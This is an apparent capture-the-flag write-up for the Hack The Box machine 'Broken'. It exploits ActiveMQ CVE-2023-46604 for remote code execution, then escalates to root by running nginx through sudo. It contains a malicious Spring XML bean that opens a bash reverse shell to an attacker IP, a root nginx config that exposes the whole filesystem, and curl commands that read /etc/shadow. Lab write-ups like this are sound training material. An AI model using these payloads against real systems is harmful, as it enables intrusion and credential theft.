




# Broken



Broken is an easy Linux Hack The Box machine released to showcase the ActiveMQ vulnerability `CVE-2023-46604`. Initial access comes from an unauthenticated remote code execution bug in ActiveMQ, and root is reached by abusing the ability to run `nginx` as root.

## Reconnaissance

A full port scan revealed SSH, HTTP, MQTT, AMQP, ActiveMQ, and several Jetty-backed services.

```text
22/tcp    open  ssh
80/tcp    open  http
1883/tcp   open  mqtt
5672/tcp   open  amqp
8161/tcp   open  http
39751/tcp open  tcpwrapped
61613/tcp open  unknown
61614/tcp open  http
61616/tcp open  apachemq
```



The HTTP service on port 80 required basic authentication and identified itself as an ActiveMQ realm. The admin credentials `admin:admin` worked and exposed the ActiveMQ management interface.



The ActiveMQ version was `5.15.15`, which is vulnerable to `CVE-2023-46604`.



## Initial Access

`CVE-2023-46604` is an unauthenticated remote code execution vulnerability in ActiveMQ. A public Python proof-of-concept https://github.com/evkl1d/CVE-2023-46604 sends a crafted serialized payload to the broker on port `61616` and loads a malicious Spring XML file.

The exploit expects a Spring XML URL, so I hosted the following XML file on my server:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
       http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i >& /dev/tcp/10.10.10.10/9001 0>&1</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

I then ran the PoC against the broker and listened on port `9001`.

That gave me a shell as `activemq`.

## Foothold

After upgrading the shell for usability, I collected the user flag from the `activemq` home directory.

```bash
script /dev/null -c bash
```

## Privilege Escalation

### Nginx as root

Running `sudo -l` showed that `activemq` could execute `nginx` as root without a password.

```text
User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

That meant I could start my own nginx instance as root using a custom config. I created a config that served the filesystem root with autoindex enabled.

```nginx
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```
I launched nginx with that config using sudo:

```bash
sudo /usr/sbin/nginx -c /dev/shm/deadbeef.conf
```

With that in place, I could read arbitrary files as root over HTTP.

```bash
curl localhost:1337/etc/shadow
curl localhost:1337/root/root.txt
```

That was enough to recover the root flag and complete the box.

## Attack Path

- Enumerate the host and identify ActiveMQ services.
- Log in to the ActiveMQ web console with default credentials.
- Confirm the broker version is vulnerable to `CVE-2023-46604`.
- Use the public exploit to trigger unauthenticated RCE.
- Gain a shell as `activemq`.
- Abuse `sudo` permissions to run `nginx` as root.
- Start a root-owned nginx instance serving `/`.
- Read `/etc/shadow` and `/root/root.txt`.
